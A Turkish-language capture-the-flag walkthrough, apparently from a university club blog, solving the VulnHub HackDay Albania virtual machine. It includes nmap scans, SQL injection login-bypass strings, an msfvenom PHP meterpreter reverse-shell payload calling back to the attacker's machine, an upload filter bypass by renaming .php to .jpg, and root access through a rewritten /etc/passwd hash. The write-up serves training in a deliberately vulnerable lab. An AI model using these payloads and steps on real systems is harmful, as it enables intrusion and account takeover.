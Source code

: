 ```yaml
---
layout: post
title: Hack A Day Albania Walktrough
date: '2017-03-03 16:10:00 +0300'
categories: blog
---
```


Selam,  
Hack A Day Albania CTF sanal makinasının tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.  
  
    
__Hackaday Albania CTF__

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır  

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)


__VM çözümü__  

  
```ifconfig ```  

komutu ile kendi IP adresimizi ve Subnet Mask'ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)   

```nmap 192.168.1.1/24```  

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** 
ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde;
22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/01.png)  


Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek
için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.  
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/02.png)  


```nmap -n -p 1-65535 -sV 192.168.1.10 --open```  
    
komutu ile tüm açık TCP portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda

```http://192.168.1.10:8080```
    
adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alacaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır. Bu satırları google translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış olduğunu anlıyoruz ve yazıda **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **[Owasp ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)** aracında tarattığımızda birşey gözümüze çarpıyor:

```robots.txt```   
    

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/03.png)  


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/04.png)  


Fakat ortalara doğru

```/unisxcudkqjydw ```

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/05.png)  


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

```http://192.168.1.10:8008/unisxcudkqjydw/vulnbank/```

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen SQL Injection
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/06.png)  


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle   

```' or '1' = '1```

olarak bilinen genel yöntemi deniyoruz ancak çok da sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


```Invalid Credentials...```


tabi ki pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize, biz de
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

```' or 'aucc' = 'aucc';#```

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
SQL sorgusu kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/07.png)   


fakat gözümüz hala doymamış olacak ki sistem hedefinden şaşmayıp sağda duran **Contact Support**
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php```  

ile **192.168.1.5** IP adresli Kali Linux makinemizin 4444 portuna yönlendiren
bir php zararlı yazılımı, üretip onu da raw formatında **aucc.php** adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/08.png)  


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
**aucc.php** yi yüklemeye çalışıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/09.png)  


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/10.png)  


Biz de, al sana jpg diyip **aucc.php** nin adını **aucc.jpg** olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/11.png)  


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticket'ın üzerine tıklayıp, sistem **aucc.jpg** dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

```/etc/group```

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmayacak şekilde

```/etc/passwd ```

doaysının izinlerine baktığımızda write iznini farkediyoruz. Tabi **meterpreter** üzerinden bunu editlemek biraz
sancılı olacağı için

```download /etc/passwd```

ile Kali'ye hedef makinenin passwd dosyasını indiriyoruz. Eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir **x** bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

```openssl passwd -1 -salt tuzlu aucc```

ile passwd formatında md5(-1) tipinde **tuzlu** ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

```$1$tuzlu$LewyIW83SjgyBrkI29SWh0```  

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/12.png)  


Root'un parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreter'dan

```upload passwd /etc/passwd```

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

```ssh taviso@192.168.1.10```

ile bağlantımızı kurup parola olarak 

```aucc```

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/13.png)  

```cat /root/flag.txt```

ile flag'i bastırıp flag'i gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.

```
FLAG:

    Urime,

    Tani nis raportin!

    (arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)
 ```  
    d5ed38fdbf28bc4e58be142cf5a17cf5
    
    
      
 ---
 **[Hüseyin Erdem](https://twitter.com/rootofarch)**
